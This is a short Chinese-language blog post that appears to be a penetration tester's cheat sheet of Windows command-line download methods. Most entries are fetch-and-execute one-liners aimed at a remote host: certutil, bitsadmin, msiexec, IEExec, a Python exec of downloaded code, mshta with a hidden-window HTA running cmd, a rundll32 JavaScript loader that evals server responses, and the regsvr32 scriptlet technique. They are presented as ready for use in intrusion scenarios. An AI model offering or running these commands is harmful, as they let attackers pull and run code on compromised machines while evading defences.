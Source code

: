 ```yaml
---
layout: post
title:  "Windows下命令行下载文件总结"
date:   2017-11-08
categories: windows
permalink: /archivers/2017-11-08/1
---
```

Windows下命令行下载文件总结
<!--more-->
## 0x00 Powershell

win2003、winXP不支持


$client = new-object System.Net.WebClient

$client.DownloadFile('http://payloads.online/file.tar.gz', 'E:\file.tar.gz')


## 0x01 ftp

ftp 192.168.3.2

输入用户名和密码后

lcd E:\file    # 进入E盘下的file目录

cd www # 进入服务器上的www目录

get access.log # 将服务器上的access.log下载到E:\file

可以参考：https://baike.baidu.com/item/ftp/13839

## 0x02 IPC$

copy \\192.168.3.1\c$\test.exe E:\file

可以参考：http://www.163164.com/jiqiao/163164com011.htm

## 0x03 Certutil

可以参考：https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx

应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

certutil.exe -urlcache -split -f http://192.168.3.1/test.txt file.txt

## 0x04 bitsadmin

可以参考：https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx

* 1、`bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt`
* 2、`bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt`

## 0x05 msiexec

msiexec /q /i http://192.168.3.1/test.txt

## 0x06 IEExec

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> IEExec http://192.168.3.1/test.exe

## 0x07 python

C:\python27\python.exe -c "import urllib2; exec urllib2.urlopen('http://192.168.3.1/test.zip').read();"

## 0x08 mshta

mshta http://192.168.3.1/run.hta

run.hta 内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```


## 0x09 rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%
```

其实还是依赖于WScript.shell这个组件

## 0x10 regsvr32

regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll

test.data内容：
```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <!-- Learn from Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```
 
还可以利用 https://github.com/CroweCybersecurity/ps1encode 生成sct(COM scriptlet - requires a webserver to stage the payload)

regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll

## 结语

没有总结太多交互式下载文件的，这类的不太适用我们所遇到的场景，如果还有更多方式，后面再填补进来



